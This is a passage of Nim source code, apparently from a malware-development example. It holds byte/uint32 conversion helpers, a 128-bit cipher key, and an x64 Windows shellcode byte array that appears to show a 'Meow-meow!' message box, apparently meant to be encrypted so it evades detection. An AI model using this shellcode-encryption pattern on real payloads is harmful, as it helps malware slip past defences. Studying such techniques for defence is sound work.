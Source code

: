 ```nim
  if data.len mod 8 != 0:
    raise newException(ValueError, "Data length must be multiple of 8 bytes")
  
  result = newSeq[array[2, uint32]](data.len div 8)
  for i in 0 ..< result.len:
    let offset = i * 8
    result[i][0] = cast[uint32](data[offset]) or 
                  (cast[uint32](data[offset+1]) shl 8) or 
                  (cast[uint32](data[offset+2]) shl 16) or 
                  (cast[uint32](data[offset+3]) shl 24)
    result[i][1] = cast[uint32](data[offset+4]) or 
                  (cast[uint32](data[offset+5]) shl 8) or 
                  (cast[uint32](data[offset+6]) shl 16) or 
                  (cast[uint32](data[offset+7]) shl 24)

proc uint32ToBytes(data: seq[array[2, uint32]]): seq[byte] =
  result = newSeq[byte](data.len * 8)
  for i in 0 ..< data.len:
    let offset = i * 8
    result[offset]   = byte(data[i][0] and 0xFF)
    result[offset+1] = byte((data[i][0] shr 8) and 0xFF)
    result[offset+2] = byte((data[i][0] shr 16) and 0xFF)
    result[offset+3] = byte((data[i][0] shr 24) and 0xFF)
    result[offset+4] = byte(data[i][1] and 0xFF)
    result[offset+5] = byte((data[i][1] shr 8) and 0xFF)
    result[offset+6] = byte((data[i][1] shr 16) and 0xFF)
    result[offset+7] = byte((data[i][1] shr 24) and 0xFF)

when isMainModule:
  # define a 128-bit key (4 x uint32)
  let key: array[4, uint32] = [0x01234567'u32, 0x89abcdef'u32, 0xfedcba98'u32, 0x76543210'u32]

  # define the payload
  var data: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  echo "original data (", data.len, " bytes):"
  for b in data:
    stdout.write &"{b:02x} "
```